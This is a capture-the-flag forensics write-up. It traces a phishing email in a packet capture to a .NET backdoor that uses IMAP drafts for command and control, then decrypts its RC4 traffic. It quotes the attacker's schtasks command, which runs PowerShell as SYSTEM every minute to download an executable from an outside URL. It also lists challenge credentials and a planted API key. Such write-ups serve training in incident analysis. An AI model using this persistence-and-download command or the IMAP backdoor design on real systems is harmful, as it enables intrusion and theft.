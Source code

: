 # 🕵️ Forensics Challenge

## 🏷️ Name: Silent Trap

## 🔥 Difficulty: Easy

## 📜 Challenge Description: 
> A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers.
> With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

--- 
## 📂 Provided Files:
- **Filename:** `capture.pcapng`

--- 

# 🚀 Methodology

There are lots of things going on in the traffic, based on the **Protocol Hierarchy**

![alt text](images/00_prot_hierarchy.png)


### 📋 Task 1: What is the subject of the first email that the victim opened and replied to?

If we check the Export Objects --> HTTP , there are several HTML files that could give us some clues. It's annoying, but you must filter for HTML files and save them one by one. I didn't save the ones that were small (the 303 and 477 bytes ones).  Given the synopsis, we can assume that **devteam@korptech.net** is the victim. 


![alt text](images/01_eml_repl.png)

And the victim replied to **shadowblade@email.com** about an email regarding the game crashing. I found this in the 4th HTML file.

**✅ Answer:** `Game Crash on Level 5`


### 📋 Task 2: On what date and time was the suspicious email sent? (Format: YYYY-MM-DD_HH:MM) (for example: 1945-04-30_12:34)

The **suspicious email**, is the last html file. It was sent by **proplayer@email.com** and it contains a zip file attachment. 


![alt text](images/02_sus.png)


**✅ Answer:** `2025-02-24_15:46`


### 📋 Task 3: What is the MD5 hash of the malware file?

Using the same logic as before, we can save the `.zip` file, which is likely to contain the malware. But, it's password encrypted! Checking the email again, we find that:
> ... Archive password is eldoriaismylife

The filename is `Eldoria_Balance_Issue_Report.pdf.exe`, and it's MD5 hash is `c0b37994963cc0aadd6e78a256c51547`. 

**✅ Answer:** `c0b37994963cc0aadd6e78a256c51547`



### 📋 Task 4: What credentials were used to log into the attacker's mailbox? (Format: username:password)

Using this filter: 

`imap && imap.request.password`

![alt text](images/05_password.png)


At first glance, it seems like no password was being used — each login request just appeared to end with the word `completed`.

This turned out to be a **parsing issue**, or at least it was on my end.

In the top pane (highlighted in pink), the login requests look like they end with the word `completed`, which doesn’t look like a typical password value. 

However, if you check the IMAP **line view** in the packet details, you’ll see that the actual password field is `omplete` — it’s just missing the first character. When clicking into the hex view (blue rectangle), the ASCII decode shows `completed`, and Wireshark auto-highlights the **Request Password** as `omplete` (shown by the dashed purple rectangle).

This shows that the real password is **`completed`**, but due to how Wireshark parses or renders the field, it can easily be misread.

The email is `proplayer@email.com`. 


**✅ Answer:** `proplayer@email.com:completed`

### 📋 Task 5: What is the name of the task scheduled by the attacker?

The executable that was downloaded is a .NET file. REJOICE, this means it's easily reversible. I use 
CodemerxDecompile on Mac (probably one of the only reversing tools that works properly on my computer 😔). 

This gives us an insight on how the IMAP messages are encrypted. 

This program is basically a remote backdoor that uses IMAP as its command and control channel. Once it runs it:

- Copies itself to `C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`
- Logs in to the IMAP email server of `mail.korptech.net` using the credentials (the same credentials we found previously are actually hardcoded in the executable)
- It goes through the Drafts folder for messages matching the machine's ID, decrypts them and runs the commands on the system. 
- The output of the commands being ran are encrypted with the Exor class and base64-encdeod. They're then uploaded using the APPEND command (which explains all that weird looking IMAP traffic)


**The Exor class** is basically RC4:

![alt text](images/04_rc4.png)

and the key used is at the end of the Program class:

![alt text](images/06_rc4_key.png)

Now, we can focus on decrypting the traffic. The [code](dump_pcap.py) I used to decrypt the traffic saves to a file. 


We can check the output for the commands the **attacker** sent:

![alt text](images/08_attckr.png)


The Scheduled Task is :

```
schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM
```

In summary, every minute, the task runs with SYSTEM priviledges, downloads a file from the URL and saves it to 'rakalam.exe' 
The task is called Synchronization.

**✅ Answer:** `Synchronization`

### 📋 Task 6: What is the API key leaked from the highly valuable file discovered by the attacker?

```bash
cat imap_log.txt | grep api_key -B 50 -A 50
``` 

... So apparently the credentials are stored in plaintext lmao. 

![alt text](images/09_api.png)


**✅ Answer:** `sk-3498fwe09r8fw3f98fw9832fw`

